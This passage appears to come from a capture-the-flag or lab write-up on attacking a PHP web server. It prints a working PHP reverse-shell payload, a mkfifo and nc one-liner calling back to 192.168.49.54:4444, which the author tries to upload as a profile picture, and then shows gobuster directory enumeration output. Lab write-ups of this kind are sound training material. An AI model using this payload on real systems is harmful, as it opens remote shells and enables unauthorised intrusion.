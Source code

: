 I notice this is a php webserver... and if I inspect the profile picture of the admin account I see it points to a location in the server's filesystem.

Just in case we get lucky, I try uploading a php reverse shell as the new profile picture:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 4444 >/tmp/f");?> 
```

and start a local listener on that port

```
nc -lvnp 4444
```

No luck... the webapp doesn't let me upload a profile picture with that extension

![](./assets/upload-reverse-shell.png)

I try to dig in other tabs but there's nothing promising there... let's try enumerating paths.

7) Enumerating webserver paths with `gobuster`, we'll try a small wordlist first

```
$ gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 300] [--> http://target/admin/]
/sites                (Status: 301) [Size: 300] [--> http://target/sites/]
/cache                (Status: 301) [Size: 300] [--> http://target/cache/]
/sys                  (Status: 301) [Size: 298] [--> http://target/sys/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
```